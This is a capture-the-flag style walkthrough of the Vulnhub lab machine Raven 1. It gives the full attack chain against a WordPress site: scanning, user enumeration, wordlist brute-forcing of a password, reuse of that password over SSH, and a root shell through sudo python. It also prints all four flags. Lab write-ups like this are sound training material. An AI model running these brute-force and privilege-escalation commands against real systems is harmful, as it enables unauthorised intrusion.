






# Walkthrough: Raven 1, a vulnhub machine

## About the machine

| data |  |
|--------| ------- |
| Machine | Raven 1 |
| Platform | Vulnhub |
| url | [link](https://www.vulnhub.com/entry/raven-1,256/) | 
| Download | [https://drive.google.com/open?id=1pCFv-OXmknLVluUu_8ZCDr1XYWPDfLxW](https://drive.google.com/open?id=1pCFv-OXmknLVluUu_8ZCDr1XYWPDfLxW) |
| Download Mirror | [https://download.vulnhub.com/raven/Raven.ova](https://download.vulnhub.com/raven/Raven.ova) |
| Size | 1.4 GB |
| Author | [William McCann](https://www.vulnhub.com/author/william-mccann,596/) |
| Release date | 14 August 2018 |
| Description | Raven is a Beginner/Intermediate boot2root machine. There are four flags to find and two intended ways of getting root. Built with VMware and tested on Virtual Box. Set up to use NAT networking. |
| Difficulty | Beginner/Intermediate |
| OS | Linux |


## Walkthrough

### Setting up the machines

I'll be using Virtual Box.

Kali machine (from now on: attacker machine) will have two network interfaces: 

- eth0 interface: NAT mode (for internet connection).
- eth1 interface: Host-only mode (for attacking the victim machine).

Raven 1 machine (from now on: victim machine) will have only one network interface:

- eth0 interface.

After running 

```bash
ip a
```

### Reconnaissance

#### Identify victim's IP

we know that the attacker's machine IP address is 192.168.56.102/24. To discover the victim's machine IP, we run:

```bash
sudo netdiscover -i eth1 -r 192.168.56.102/24
```

These are the  results:


#### Scan victim's surface attack

Now we can run a scanner to see which services are running on the victim's machine:

```bash
sudo nmap -p- -A 192.168.56.104
```

And the results:


Having a web server in port 80, it's inevitable to open a browser and have a look at it. Also, at the same time, we can run a simple enumeration scan:

```bash
dirb http://192.168.56.104
```

The results are pretty straightforward:




There is a wordpress installation (maybe not well accomplished) running on the server. Also there are some services installed such as PHPMailer. 

By reviewing the source code in the pages we find the first flag:




Here, flag1 in plain text:


```html
<!-- End footer Area -->		
			<!-- flag1{b9bbcb33e11b80be759c4e844862482d} -->
```

#### Deeper scan with specific tool for wordpress service: wpsca 

First, let's start by running a much deeper scanner with [wpscan](wpscan.md). We'll be enumerating users, 


```bash
wpscan --url http://192.168.56.104/wordpress --enumerate u --force --wp-content-dir wp-content
```

And the results show us some interesting findings:


First, one thing that later may be useful: XML-RPC seems to be enabled: http://192.168.56.104/wordpress/xmlrpc.php. What does this service do? It allows authentication to post entries. It's also useful in wordpress for retrieving pings when a post is linked back. This means that it's also an open door for exploitation. We'll return to this later.

Opening the browser in http://192.168.56.104/wordpress/readme.html, we can see some instructions to set up the wordpress installation.


As a matter of fact, by clicking on http://192.168.56.104/wp-admin/install.php, we end up on a webpage like this:


Nice, so, the link button is giving us a tip, we need to include a redirection in our /etc/hosts file. 

```bash
sudo nano /etc/hosts
```

At the  end of the file we add the following line:

```bash
192.168.56.104	local.raven
# CTRL-s  and CTRL-x
```

Now we can browse perfectly the wordpress site. Also, finishing our wpscan, there are two more interesting findings:




These findings are:

+ Wordpress: WordPress version 4.8.7 identified (Insecure, released on 2018-07-05).
+ User enumeration: steven and michael.

We can also detect those users manually, simply by brute-forcing the author enumeration. See screenshot:




To manually brute force users in a wordpress installation, you just need to go to:

- targetURL/?author=1

Author with id=1 (as in the example) is the first user created during the CMS installation, which usually coincides with the admin user. To see the next user, you just need to change the number. Ids are correlative. By checking the source code (as in the previous screenshot) you can gather users (steven and michael), but also worpress version (4.8.7) and theme (TwentySeventeen).


**So, what do we have so far?**

> + **Server**: Apache/2.4.10 (Debian)
> + **CMS**: WordPress version 4.8.7 identified (Insecure, released on 2018-07-05)
> + **Theme**: twentySeventeen
> + **XML-RPC** seems to be enabled: http://192.168.56.104/wordpress/xmlrpc.php.
> + **Login page**: http://raven.local/wordpress/wp-login.php 
> + **Two users**: steven, michael.

### Exploiting findings


#### Bruce-forcing passwords for the CMS

Having found anything, after testing input validations in the endpoints of the application, I'm going to try to brute force login with steven, who is the user with id=2.

```bash
wpscan --url http://192.168.56.104/wordpress --passwords /usr/share/wordlists/rockyou.txt  --usernames steven -t 25
```

Resulst:




Now, we have:

+ user: steven
+ password: pink84

These credentials are good to login into the wordpress and... retrieve flag3!!!


Flag3 was hidden in the draft of a post. Here, in plain text:

```
flag3{afc01ab56b50591e7dccf93122770cd2}
```

#### Using credentials found for wordpress in a different service (ssh)

It's not uncommon to use same usernames and passwords across services. Wo, having found steven's password for wordpress, we may try to use the same credentials in a different service. Therefore, we will try to access port 22 (which was open) and see if these creds are valid:

```bash   
ssh steven@192.168.56.104
```

After confirming "fingerprinting", we are asked to introduce steven's password, and... it works!




### Escalation of privileges

We can see who we are (id), to which groups we belong (id), the version of the running server (uname -a),  and which commands we are allowed to run (sudo -l). And here comes the juicy part. As you may see in the screenshot we can run the command python as root without entering a password.


**Resources**: This site is a must when it comes to Unix binaries that can be used to bypass local security restrictions [https://gtfobins.github.io](https://gtfobins.github.io/)

In particular, we can easily spot this valid exploit: [https://gtfobins.github.io/gtfobins/python/#sudo](https://gtfobins.github.io/gtfobins/python/#sudo). **What does it say about python?** If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

This is just perfect. So to escalate to root we just need to run:

```bash 
sudo python -c 'import os; os.system("/bin/sh")'
```

See the results:


### Getting the flags

Printing flags now is not difficult at all:

```bash
find . -name flag*.txt 2>/dev/null 
```

And results:

```
./var/www/flag2.txt
./root/flag4.txt
```

We can print them now:

```bash
cat /var/www/flag2.txt
```
Results:

```
flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
```

```bash
cat /root/flag4.txt
```

Results:


```
______                      

| ___ \                     

| |_/ /__ ___   _____ _ __  

|    // _` \ \ / / _ \ '_ \ 

| |\ \ (_| |\ V /  __/ | | |

\_| \_\__,_| \_/ \___|_| |_|

                            
flag4{715dea6c055b9fe3337544932f2941ce}

CONGRATULATIONS on successfully rooting Raven!

This is my first Boot2Root VM - I hope you enjoyed it.

Hit me up on Twitter and let me know what you thought: 

@mccannwj / wjmccann.github.io
```


### Commands and tools

#### Commands used to exploit the machine

```
sudo netdiscover -i eth1 -r 192.168.56.102/24
sudo nmap -p- -A 192.168.56.104
dirb http://192.168.56.104
wpscan --url http://192.168.56.104/wordpress --enumerate u --force --wp-content-dir wp-content
echo "192.168.56.104	local.raven" sudo >> /etc/hosts
wpscan --url http://192.168.56.104/wordpress --passwords /usr/share/wordlists/rockyou.txt  --user steven -t 25
ssh steven@192.168.56.104
sudo python -c 'import os; os.system("/bin/sh")'
find . -name flag*.txt 2>/dev/null
```

#### Tools

+ [dirb](dirb.md).
+ [netdiscover](netdiscover.md).
+ [nmap](nmap.md).
+ [wpscan](wpscan.md).

